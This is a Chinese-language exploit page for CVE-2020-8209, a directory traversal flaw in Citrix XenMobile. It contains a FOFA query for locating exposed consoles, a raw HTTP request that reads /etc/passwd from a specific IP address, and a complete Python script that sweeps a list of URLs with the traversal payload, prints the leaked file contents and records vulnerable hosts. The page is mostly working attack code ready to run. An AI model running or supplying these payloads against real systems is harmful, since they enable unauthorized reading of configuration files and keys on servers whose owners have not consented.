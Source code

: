 # CVE-2020-8209 XenMobile(Citrix Endpoint Management) 目录遍历漏洞

利用此漏洞，可以读取Web服务器根目录之外的任意文件，包括配置文件和敏感的加密密钥。剥削不需要授权。在文件help-sb-download.jsp中标识了易受攻击的代码：

fofa：

app="XenMobile-控制台"

![](media/16096811112255/16096811265936.jpg)


PoC：


```
GET /jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd HTTP/1.1
Host: 88.212.26.164
```

批量检测脚本：

CVE-2020-8209-Multiple.py：



```python
#!/usr/bin/env python
# coding:utf-8
# author:B1anda0

import requests,sys,colorama
from colorama import *
init(autoreset=True)


banner='''\033[1;33;40m
  _______      ________    ___   ___ ___   ___         ___ ___   ___   ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \       / _ \__ \ / _ \ / _ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |_____| (_) | ) | | | | (_) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______> _ < / /| | | |\__, |
| |____   \  /  | |____    / /_| |_| / /_| |_| |     | (_) / /_| |_| |  / / 
 \_____|   \/   |______|  |____|\___/____|\___/       \___/____|\___/  /_/  
                                                                                                                                                       
'''


def XenMobile():
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
        payload= '/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd'
        poc=urls+payload
        try:
                requests.packages.urllib3.disable_warnings()#解决InsecureRequestWarning警告
                response=requests.get(poc,headers=headers,timeout=10,verify=False)
                if response.status_code==200 and "root" in response.content:
                        print(u'\033[1;31;40m[+]{} is citrix xenmobile directory traversal vulnerability'.format(urls))
                        print(response.content)
                        #将漏洞地址输出在Vul.txt中
                        f=open('./vul.txt','a')
                        f.write(urls)
                        f.write('\n')
                else:
                        print('\033[1;32;40m[-]{} None'.format(urls))
        except:
                print('{} request timeout'.format(urls))


if __name__ == '__main__':
        print (banner)
        if len(sys.argv)!=2:
                print('Example:python CVE-2020-8209.py url.txt')
        else:
                file = open(sys.argv[1])
                for url in file.readlines():
                        urls=url.strip()
                        if urls[-1]=='/':
                                urls=urls[:-1]
                        XenMobile()
                print ('Check Over')
```

使用方法：Python CVE-2020-8209-Multiple.py url.txt

ref；

https://github.com/B1anda0/CVE-2020-8209

https://forum.ywhack.com/thread-114707-1-3.html